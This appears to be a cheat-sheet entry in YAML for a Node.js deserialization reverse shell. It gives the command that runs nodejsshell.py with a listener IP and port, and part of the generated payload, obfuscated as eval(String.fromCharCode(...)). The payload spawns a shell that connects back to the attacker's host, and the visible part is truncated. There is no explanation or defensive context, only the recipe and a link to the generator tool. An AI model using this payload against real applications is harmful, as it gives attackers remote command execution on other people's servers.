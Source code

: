 ```yaml
---
functions:
  shell:
    - description: node.js deserialization shell
      code: |
        python2 nodejsshell.py 192.168.49.198 80                       
        [+] LHOST = 192.168.49.198
        [+] LPORT = 80
        [+] Encoding
        eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108
        ...
        ...
        
resources: |
  https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
---
```

